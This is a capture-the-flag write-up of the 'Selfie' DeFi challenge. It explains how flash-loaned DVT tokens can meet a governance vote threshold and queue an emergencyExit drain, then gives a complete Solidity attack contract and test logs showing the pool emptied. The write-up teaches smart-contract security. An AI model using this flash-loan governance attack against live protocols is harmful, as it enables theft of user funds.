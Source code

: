 # Challenge - Selfie

A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

## Objective of CTF

Rescue all funds from the pool and deposit them into the designated recovery account.

## Vulnerability Analysis

The `SelfiePool` contract, which acts as the lending pool, provides flash loans of DVT tokens and includes an emergency function to withdraw all DVT tokens to a specified receiver address:

```solidity
function emergencyExit(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);

    emit EmergencyExit(receiver, amount);
}
```

However, only the governance contract, the `SimpleGovernance` contract, can execute this function. To trigger it, an action must first be queued using the `queueAction()` function in the `SimpleGovernance` contract:

```solidity
function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
    if (!_hasEnoughVotes(msg.sender)) {
        revert NotEnoughVotes(msg.sender);
    }

    if (target == address(this)) {
        revert InvalidTarget();
    }

    if (data.length > 0 && target.code.length == 0) {
        revert TargetMustHaveCode();
    }

    actionId = _actionCounter;

    _actions[actionId] = GovernanceAction({
        target: target,
        value: value,
        proposedAt: uint64(block.timestamp),
        executedAt: 0,
        data: data
    });

    unchecked {
        _actionCounter++;
    }

    emit ActionQueued(actionId, msg.sender);
}
```

Importantly, not just anyone can queue an action; the caller needs to hold at least half of the total supply of DVT tokens, as shown below:

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

After a delay of two days, the queued action can be executed by calling `executeAction()` in the SimpleGovernance contract:

```solidity
function executeAction(uint256 actionId) external payable returns (bytes memory) {
    if (!_canBeExecuted(actionId)) {
        revert CannotExecute(actionId);
    }

    GovernanceAction storage actionToExecute = _actions[actionId];
    actionToExecute.executedAt = uint64(block.timestamp);

    emit ActionExecuted(actionId, msg.sender);

    return actionToExecute.target.functionCallWithValue(actionToExecute.data, actionToExecute.value);
}
```

Do you see the vulnerability? To queue an action, you need to control half of the total supply of DVT tokens. However, the pool offers flash loans of DVT tokens, which can be exploited to temporarily meet this requirement.

### Attack steps:

1. Initiate a flash loan to borrow the maximum amount of DVT tokens and use them to queue an action that executes the `emergencyExit()` function during the loan.
2. Wait 2 days (using `vm.warp(block.timestamp + 2 days)` in test), then execute the queued action by calling the `executeAction()` function.

## PoC test case

### Attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {Ownable} from "solady/auth/Ownable.sol";
import {ISimpleGovernance} from "./ISimpleGovernance.sol";
import {DamnValuableVotes} from "../DamnValuableVotes.sol";

interface ISelfiePool {
    function maxFlashLoan(address _token) external view returns (uint256);
    function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data)
        external
        returns (bool);
}

contract AttackSelfiePool is IERC3156FlashBorrower, Ownable {
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    DamnValuableVotes private immutable token;
    address private immutable governance;
    address private immutable pool;
    address private immutable recovery;

    constructor(address _token, address _governance, address _pool, address _recovery) {
        _initializeOwner(msg.sender);

        token = DamnValuableVotes(_token);
        governance = _governance;
        pool = _pool;
        recovery = _recovery;
    }

    function attack() external onlyOwner {
        uint256 amount = ISelfiePool(pool).maxFlashLoan(address(token));
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);
        ISelfiePool(pool).flashLoan(this, address(token), amount, data);
    }

    function onFlashLoan(address _sender, address, uint256 _amount, uint256, bytes calldata data)
        external
        returns (bytes32)
    {
        require(_sender == address(this), "invalid sender");
        require(msg.sender == pool, "not from pool");

        token.delegate(address(this));
        ISimpleGovernance(governance).queueAction(pool, 0, data);
        token.approve(pool, type(uint256).max);

        return CALLBACK_SUCCESS;
    }
}
```

### Test Result

```
Ran 2 tests for test/selfie/Selfie.t.sol:SelfieChallenge
[PASS] test_assertInitialState() (gas: 23817)
[PASS] test_selfie() (gas: 875599)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the pool contract: 1500000.000000000000000000
  token balance in the recovery address: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the pool contract: 0.000000000000000000
  token balance in the recovery address: 1500000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.91ms (871.38µs CPU time)

Ran 1 test suite in 257.84ms (7.91ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
